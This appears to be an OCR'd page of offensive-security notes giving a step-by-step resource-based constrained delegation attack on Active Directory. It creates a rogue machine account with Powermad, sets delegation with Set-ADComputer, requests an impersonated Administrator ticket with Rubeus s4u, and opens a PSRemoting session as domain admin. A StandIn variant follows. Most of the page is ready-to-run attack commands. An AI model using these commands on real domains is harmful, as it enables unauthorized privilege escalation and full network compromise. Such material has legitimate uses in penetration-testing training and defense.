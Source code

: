 ```powershell
Import-Module .\Powermad.ps1
```

```powershell
New-MachineAccount -Domain offensiveps.powershell.local -DomainController 192.168.2.1 -MachineAccount AttackCompObj -Password (ConvertTo-SecureString 'Password123' -AsPlainText -Force) -Verbose
```

- Once we know that our current user has Write permission on ops-sqlsrvone(example), run the following command form the Active Directory module to set RBCD on ops-sqlsrvone:

```powershell
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll

Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.ps1
```

```powershell
Set-ADComputer ops-sqlsrvone -PrincipalsAllowedToDelegateToAccount
AttackCompObj$ -Verbose
```

```powershell
Get-ADComputer ops-sqlsrvone -Properties PrincipalsAllowedToDelegateToAccount
```

- Now, using Rubeus, we can request a TGS for a service on opssqlsrvone as ANY user. Note that we need to convert the password of AttackCompObj to NTLM hash:

```powershell
.\Rubeus.exe s4u /user:AttackCompObj$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /msdsspn:http/opssqlsrvone /impersonateuser:Administrator /ptt
```

- We requested TGS for HTTP which means access (as DA - Administrator using PSRemoting:

```powershell
Enter-PSSession -ComputerName ops-sqlsrvone
```

---
---

Abuse Using [StandIn](https://github.com/FuzzySecurity/StandIn) :

- Create machine account :

```bash
.\StandIn.exe --computer napster --make
```

-  Get SID of the machine account we just created :

```bash
Get-ADComputer -Filter * | Select-Object Name, SID
```

- Write msDS-AllowedToActOnBehalfOfOtherIdentity on the above SID:

```bash
.\StandIn.exe --computer ResourceDC --sid S-1-5-21-537427935-490066102-1511301751-4101
```
